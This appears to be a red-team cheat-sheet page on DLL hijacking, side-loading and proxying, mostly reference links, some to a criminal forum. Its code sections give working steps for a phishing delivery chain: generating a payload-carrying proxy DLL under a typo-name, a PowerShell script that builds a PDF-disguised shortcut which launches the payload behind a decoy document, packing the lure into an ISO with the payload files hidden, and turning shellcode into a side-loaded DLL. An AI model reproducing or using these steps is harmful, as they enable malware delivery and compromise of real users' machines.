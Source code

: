 ```yaml
---
description: DLL Hijacking / DLL Side-Loading / DLL Proxying
---
```


# DLL Hijacking

- [https://hijacklibs.net/](https://hijacklibs.net/)
- [https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads](https://github.com/XForceIR/SideLoadHunter/tree/main/SideLoads)
- [https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/](https://dec0ne.github.io/research/2021-04-26-DLL-Proxying-pt1/)
- [https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/](https://blog.cyble.com/2022/07/27/targeted-attacks-being-carried-out-via-dll-sideloading/)
- [https://besteffortteam.it/onedrive-and-teams-dll-hijacking/](https://besteffortteam.it/onedrive-and-teams-dll-hijacking/)
- [https://www.binarydefense.com/resources/blog/demystifying-dll-hijacking-understanding-the-intricate-world-of-dynamic-link-library-attacks/](https://www.binarydefense.com/resources/blog/demystifying-dll-hijacking-understanding-the-intricate-world-of-dynamic-link-library-attacks/)
- [https://xss.is/threads/67021/](https://xss.is/threads/67021/)
- [https://xss.is/threads/67718/](https://xss.is/threads/67718/)
- [https://www.r-tec.net/r-tec-blog-dll-sideloading.html](https://www.r-tec.net/r-tec-blog-dll-sideloading.html)

{% embed url="https://youtu.be/3eROsG_WNpE" %}

Print debug output from a DLL:

```c
#ifdef _DEBUG
#include <stdio.h>
#include <string.h>
#define __FILENAME__ (strrchr(__FILE__, '\\') ? strrchr(__FILE__, '\\') + 1 : __FILE__)
#define DPRINT(...) { \
  fprintf(stderr, "DEBUG: %s:%d:%s(): ", __FILENAME__, __LINE__, __FUNCTION__); \
  fprintf(stderr, __VA_ARGS__); \
}
#else
#define DPRINT(...)
#endif
```




## DLL Side-Loading with ISO Packing

- [https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)
- [https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/](https://blog.sunggwanchoi.com/recreating-an-iso-payload-for-fun-and-no-profit/)
- [https://github.com/ChoiSG/OneDriveUpdaterSideloading](https://github.com/ChoiSG/OneDriveUpdaterSideloading)

Generate a proxy DLL with [SharpDLLProxy](https://github.com/Flangvik/SharpDllProxy):

```
Cmd > SharpDllProxy.exe --dll C:\Windows\System32\version.dll --payload OneDrive.Update
Cmd > move output_version\tmp1F94.dll C:\out\vresion.dll
```

Create a malicious link (also [here](https://gist.github.com/mttaggart/eb2ba020b8816cfe3da4cfd835240b7d)):

```powershell
$obj = New-object -ComObject wscript.shell
$link = $obj.createshortcut("C:\Tools\PackMyPayload\out\clickme.lnk")
$link.windowstyle = "7"
$link.targetpath = "%windir%/system32/cmd.exe"
$link.iconlocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13" # PDF ico
$link.arguments = "/c start update.exe & ""%ProgramFiles(x86)%/Microsoft/Edge/Application/msedge.exe"" %cd%/fake.pdf"
$link.save()
```

Pack all the files into an ISO with [PackMyPayload](https://github.com/mgeeky/PackMyPayload):

```
PS > python .\PackMyPayload.py .\out\ .\out\a.iso --out-format iso --hide OneDriveStandaloneUpdater.exe,vresion.dll,version.dll,fake.pdf
```




## Unlock DllMain

- [https://elliotonsecurity.com/perfect-dll-hijacking/](https://elliotonsecurity.com/perfect-dll-hijacking/)
- [https://github.com/ElliotKillick/LdrLockLiberator](https://github.com/ElliotKillick/LdrLockLiberator)
- [https://elliotonsecurity.com/what-is-loader-lock/](https://elliotonsecurity.com/what-is-loader-lock/)
- [https://habr.com/ru/articles/792424/](https://habr.com/ru/articles/792424/)




## CVE-2025-24076, CVE-2025-24994

- [https://blog.compass-security.com/2025/04/3-milliseconds-to-admin-mastering-dll-hijacking-and-hooking-to-win-the-race-cve-2025-24076-and-cve-2025-24994/](https://blog.compass-security.com/2025/04/3-milliseconds-to-admin-mastering-dll-hijacking-and-hooking-to-win-the-race-cve-2025-24076-and-cve-2025-24994/)



### DLL Proxying

- [https://github.com/Flangvik/SharpDllProxy](https://github.com/Flangvik/SharpDllProxy)
- [https://github.com/tothi/dll-hijack-by-proxying](https://github.com/tothi/dll-hijack-by-proxying)
- [https://github.com/kagasu/ProxyDllGenerator](https://github.com/kagasu/ProxyDllGenerator)
- [https://github.com/namazso/dll-proxy-generator](https://github.com/namazso/dll-proxy-generator)
- [https://github.com/mrexodia/perfect-dll-proxy](https://github.com/mrexodia/perfect-dll-proxy)



### Shhhloader

- [https://github.com/icyguider/Shhhloader](https://github.com/icyguider/Shhhloader)

```
$ ./Shhhloader.py -p RuntimeBroker.exe -d -dp vresion.dll -o version.dll -s domain -sa megacorp.local shellcode.bin
```



### DLL ForwardSideloading

- [https://www.hexacorn.com/blog/2025/08/19/dll-forwardsideloading/](https://www.hexacorn.com/blog/2025/08/19/dll-forwardsideloading/)
- [https://hexacorn.com/d/apis_fwd.txt](https://hexacorn.com/d/apis_fwd.txt)
